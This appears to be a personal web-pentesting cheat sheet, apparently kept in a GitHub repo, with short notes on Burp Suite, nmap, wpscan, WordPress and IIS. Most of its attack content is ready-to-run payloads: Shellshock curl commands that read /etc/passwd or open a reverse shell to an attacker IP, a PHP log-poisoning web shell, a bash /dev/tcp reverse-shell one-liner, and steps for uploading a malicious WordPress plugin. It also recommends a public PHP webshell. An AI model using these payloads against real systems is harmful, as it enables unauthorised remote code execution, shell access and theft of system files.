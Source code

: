 **Burp Suite** is genuinely the best tool for testing web requests and in some cases exploitation.

Useful `nmap` scripts:
	`http-shellshock --script-args uri=[PATHTOCGI]`

	`curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://[IP]/cgi-bin/user.sh`

	`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[IP]/53 0>&1' http://[IP]/cgi-bin/user.sh`

`wpscan` is good for **Wordpress** shit.
- combine with searchsploit, and fiddle with names.  Spaces instead of hyphens, one word only, etc

**LOG POISONING**
`<?php echo system($_GET['cmd']); ?>`
- Then submit `&cmd=[COMMAND]`

**BASH**  SHELL FOR REVERSE WEB
**URL** ENCODE IT
- `bash -c "bash -i >& /dev/tcp/[IP]/4444 0>&1"`

`php://filter` and `php://data` wrappers are gonna be big!


I LIKE THIS WEBSHELL A LOT!
[WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)(link to github repo). Project homepage is [here](https://www.whitewinterwolf.com/tags/php-webshell/)
### WORDPRESS
`wpscan` is your friend.

API KEY
{REDACTED}

`/wp-admin` is the admin login page.

If you get into the admin page, you can upload malicious plugins.
Plugins are defined as a zip file with 2 php files inside.
- One will need to be an php file formatted as so:
```php
<?php
/*
* Plugin Name: Quirkyshell
* Version: 1
* Author: FuckYou
* Author URI: http://Pornhub.com
* License: GPL2
*/
?>
```
- The other will need to be your malicious payload.
- The files will be accessible from the following link:
	`http://(target)/wp-content/plugins/[ZIPFILENAME]/[PHPFILENAME]`

**THE ABOVE ISN'T TRUE, SO LONG AS THE INFO ON PART 1 IS INCLUDED IN THE PHP FILE, WP WILL TAKE IT**
### IIS
USE ASP PAYLOADS
